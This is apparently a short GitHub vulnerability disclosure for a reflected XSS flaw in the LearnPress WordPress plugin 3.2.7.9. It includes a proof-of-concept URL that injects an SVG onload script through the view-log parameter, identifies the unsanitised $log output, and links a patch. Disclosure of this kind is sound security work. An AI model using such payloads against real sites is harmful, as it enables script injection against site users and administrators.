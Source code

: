 # wpp_LearnPress

the plugin learnpress has a reflected XSS.


Details:
* Plugin: https://wordpress.org/plugins/learnpress/
* Vulnerable Version: 3.2.7.9
* Payload: http://127.0.0.1/wordpress/wp-admin/edit.php?post_type=lp_course&view-log=aaa%22%3Csvg/onload=%22alert(1)%22/%3E
![unnamed](https://user-images.githubusercontent.com/32059182/98671966-028d2780-2390-11eb-90b7-06d986a650a4.png)
And the issue in the file: ./learnpress/learnpress.php: 
![image](https://user-images.githubusercontent.com/32059182/98671944-f99c5600-238f-11eb-97d8-5b80657ec34b.png)
the variable $log output without sanitize.


* patch: https://plugins.trac.wordpress.org/changeset?old_path=%2Flearnpress&old=2413726&new_path=%2Flearnpress&new=2413726&sfp_email=&sfph_mail=
